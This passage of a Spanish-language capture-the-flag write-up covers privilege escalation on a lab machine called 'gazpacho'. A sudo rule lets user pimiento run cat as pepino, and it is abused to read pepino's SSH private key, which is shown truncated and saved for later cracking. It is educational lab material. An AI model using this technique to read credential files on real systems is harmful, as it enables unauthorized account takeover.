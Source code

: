<br>

<h2 id="cat">Abusando de Privilegios Sobre Binario cat para Escalar Privilegios (Crackeo de Llave Privada SSH) y Convertirnos en el Usuario pepino</h2>

Este usuario tampoco tiene algo que nos ayude.

Veamos qué privilegios tiene:
```bash
pimiento@gazpacho:~$ sudo -l
Matching Defaults entries for pimiento on gazpacho:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pimiento may run the following commands on gazpacho:
    (pepino) NOPASSWD: /usr/bin/cat
```

Busquemos en la **guía de GTFOBins** cómo podemos abusar del **binario cat**, para escalar privilegios y convertirnos en el **usuario pepino**:
* <a href="https://gtfobins.github.io/gtfobins/cat/" target="_blank">GTFOBins: cat</a>

Ocuparemos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-gazpacho/Captura15.png">
</p>

Podemos abusar del **binario cat** para leer los archivos que solo el **usuario pepino** pueda leer.

Si recordamos el contenido del directorio del **usuario pepino**, vimos que hay un directorio `.ssh`, por lo que es posible que exista la **llave privada id_rsa**.

Vamos a comprobarlo:
```bash
pimiento@gazpacho:~$ LFILE=/home/pepino/.ssh/id_rsa
pimiento@gazpacho:~$ sudo -u pepino cat "$LFILE"
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0...
...
```
Sí existe y la obtuvimos.

Cópiala y guárdala en tu máquina como **id_rsa** y dale los permisos correctos de ejecución para esa llave:
```bash
nano id_rsa
chmod 600 id_rsa
```
